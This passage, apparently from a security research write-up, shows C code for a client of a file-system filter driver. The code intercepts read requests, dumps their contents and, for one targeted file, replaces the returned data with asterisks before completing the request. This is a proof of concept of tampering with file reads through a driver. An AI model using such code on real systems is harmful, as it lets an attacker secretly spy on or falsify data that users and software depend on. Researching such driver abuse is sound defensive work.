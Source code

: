     break;
}
case 0x3: //IRP_MJ_READ
case 0x1D: //Fast IRP_MJ_READ
{
    PrintEntryInfo("IRP_MJ_READ", IOEntryBuffer, IOEntry);

    DWORD Length = IOEntry->d5;
    PBYTE Buffer = (PBYTE)IOEntry->d6;
    DWORD EntryNameIndex = FileMapping[IOEntry->Ctrl.FileIndex];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], FakeReadName) == FALSE)
    {
        PrintBuffer(Buffer, Length);
    }
    else
    {
        printf("Faking read buffer with '*' for %ls\n", FakeReadName);
        for (unsigned int i = 0; i < Length; i++)
        {
            Buffer[i] = '*';
        }
        PrintBuffer(Buffer, Length);
        CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_CompleteRequest);
    }

    break;
}
{% endhighlight %}
![Fake.png](../images/veeamon/Fake.png)
